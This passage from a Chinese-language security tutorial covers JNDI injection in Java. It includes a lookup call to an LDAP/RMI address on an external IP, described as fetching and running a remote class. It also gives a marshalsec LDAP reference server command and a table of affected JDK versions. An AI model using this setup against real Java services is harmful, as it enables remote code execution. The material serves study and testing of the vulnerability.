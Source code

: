完成之后将文件放到服务器中，可以用`url+路径/文件名`的方式来确定文件是否正确上传或者上传到目标位置。

在项目中新建Ldap.java，代码如下：

```java
import javax.naming.InitialContext;
 
public class ldap {
    public static void main(String[] args) throws Exception{
 
        // 创建一个rmi ldap等服务调用 实例化对象
        //new InitialContext().lookup("rmi://47.94.236.117:1099/Test");
        // 调用rmi ldap等服务对象类（远程服务）
        //ldap://47.94.236.117:1389/nx5qkh =  远程地址的一个class文件被执行
        //ini.lookup("ldap://47.94.236.117:1389/nx5qkh");
 
        //new InitialContext().lookup("ldap://localhost:1389/Calc");
        // 进行访问
        new InitialContext().lookup("ldap://47.94.236.117:1389/Test");
        //new InitialContext().lookup("ldap://47.94.236.117:1389/Test");
 
 
    }
}
```

使用xshell运行：

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://0.0.0.0/#Test
http://0.0.0.0/#Test 
0.0.0.0是默认的端口此处可以改为ip地址/#这里是文件名
```

后面内容就是修改版本做测试了。

|  比较  | LDAP - marshalsec工具 | RMI marshalsec工具 | LDAP - jndi-inject工具 | RMI jndi-inject工具 |
| :----: | :-------------------: | :----------------: | :--------------------: | :-----------------: |
| JDK 17 |         可以          |      无法调用      |        无法调用        |      无法调用       |
| 11版本 |         可以          |      无法调用      |        无法调用        |      无法调用       |
| 8u362  |         可以          |      无法执行      |        无法执行        |      无法执行       |
| 8U112  |         可以          |        可以        |          可以          |        可以         |

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/3701.png" style="zoom:80%;" />

JDK 6u45、7u21之后：

java.rmi.server.useCodebaseOnly的默认值被设置为true。当该值为true时，

将禁用自动加载远程类文件，仅从CLASSPATH和当前JVM的java.rmi.server.codebase指定路径加载类文件。

使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。

JDK 6u141、7u131、8u121之后：
